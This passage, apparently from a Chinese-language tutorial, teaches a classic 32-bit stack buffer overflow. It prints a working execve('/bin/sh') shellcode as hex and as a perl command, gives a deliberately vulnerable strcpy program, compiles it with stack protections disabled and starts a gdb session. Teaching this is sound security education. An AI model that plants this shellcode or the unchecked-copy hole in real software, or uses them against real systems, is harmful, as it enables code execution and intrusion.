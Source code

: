于是我们得到了最终的shellcode（hex编码）如下

```
eb165b31c0884307895b0889430cb00b8d4b088d530ccd80e8e5ffffff2f62696e2f7368
```

我们需要用`perl`将这段无法直接用键盘输入的shellcode放在命令行上。这个`perl`命令如下：

```bash
$ perl -e 'print "\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'
```

## 缓存溢出程序

下面是一段非常简单的有缓存溢出漏洞的程序。该程序不加检查地从命令行读拷贝字符串到`buf`中。

```c
/* overflow.c */
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]) {
  char buf[16];
  strcpy(buf,argv[1]);
  printf("%s\n",buf);
  return 0;
}
```

将程序存入文件`overflow.c`，编译程序

```bash
$ gcc -m32 -z execstack -fno-stack-protector overflow.c -o overflow
```

选项`-m32`将程序编译成32位，选项`-z execstack`允许将运行时栈上的数据当做代码执行，选项`-fno-stack-protector`关闭缓存溢出保护。如果无法编译或运行32位程序，安装下列对32位的支持。

```bash
$ sudo apt-get install libc6:i386 libncurses5:i386 libstdc++6:i386 gcc-multilib
```

## 调试缓存溢出程序

用`gdb`调试该程序。

```bash
$ gdb -q overflow
```

在`main`的开始位置下断点。

```
(gdb) b *main
```

使用`b main`虽然也可以下断点，但`gdb`会自动将断点位置调整到运行时栈指针设置好之后，函数“正式”开始运行之前。但我们需要知道`main`函数的返回地址在内存中的确切位置，该位置在`call main`指令之后存储在`$esp`寄存器中。
